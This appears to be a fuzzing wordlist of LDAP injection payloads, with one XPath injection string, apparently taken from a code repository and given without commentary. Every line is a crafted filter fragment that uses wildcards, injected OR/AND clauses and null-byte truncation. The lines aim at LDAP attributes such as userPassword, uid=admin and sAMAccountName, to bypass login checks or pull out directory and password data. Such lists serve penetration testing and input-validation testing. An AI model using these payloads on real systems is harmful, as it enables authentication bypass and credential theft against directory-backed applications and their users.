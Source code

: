 ```
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y
*)(&)
*)|
*))|*
*))%00
*%00
*
%
*)(uid=*))(|(uid=*
*)(objectClass=*))(|(objectClass=*
*)(userPassword=*))(|(userPassword=*
*)(cn=*))(|(cn=*
*)(sn=*))(|(sn=*
*)(mail=*))(|(mail=*
*)(givenName=*))(|(givenName=*
*)(sAMAccountName=*))(|(sAMAccountName=*
*)(|(uid=admin)(uid=*))
*)(|(cn=admin)(cn=*))
*)(|(mail=admin@example.com)(mail=*))
*)(uid=admin)(userPassword=*)
*)(uid=*)(userPassword=admin)
*)(uid=*)(userPassword=123456)
*)(uid=*)(userPassword=*)
*)(uid=admin)(!(userPassword=invalid))
*)(uid=admin))(|(uid=*
*)(uid=admin))(|(userPassword=*
*)(|(uid=*)(userPassword=*))
*)(uid=*)(|(userPassword=admin)(userPassword=*))
*)(uid=*)(userPassword=*))(&(objectClass=person))
*)(uid=*)(userPassword=*))(&(uid=admin))
*)(|(uid=admin)(mail=admin@example.com))
*)(userPassword=*)(uid=admin)
*)(userPassword=admin)(|(uid=*))
*)(cn=admin)(userPassword=*)
*)(uid=admin)(sn=admin)
*)(uid=admin*)(|(userPassword=*))
*)(|(userPassword=*)(cn=admin*))
*)(|(uid=admin*)(cn=*))
*)(|(uid=*)(cn=admin*))
*)(|(uid=*)(cn=root*))
*)(uid=*)(!(uid=guest))
*)(uid=*)(!(uid=anonymous))
*)(uid=*)(!(uid=test))
*)(uid=*)(!(uid=readonly))
*)(uid=*)(description=admin)
*)(uid=*)(description=superuser)
*)(uid=*)(description=root)
*)(uid=*)(|(description=admin)(description=superuser))
*)(uid=*)(|(description=admin)(mail=admin@example.com))
*)(|(uid=admin*)(description=admin))
*)(|(uid=admin*)(mail=admin@example.com))
*)(uid=admin*)(homeDirectory=/home/admin)
*)(uid=admin*)(|(sn=admin)(cn=admin))
*)(uid=admin*)(description=privileged user)
*)(uid=admin*)(physicalDeliveryOfficeName=HQ)
*)(uid=admin*)(homePhone=1234567890)
*)(uid=*)(|(sn=admin)(cn=admin))
*)(uid=*)(|(sn=root)(cn=root))
```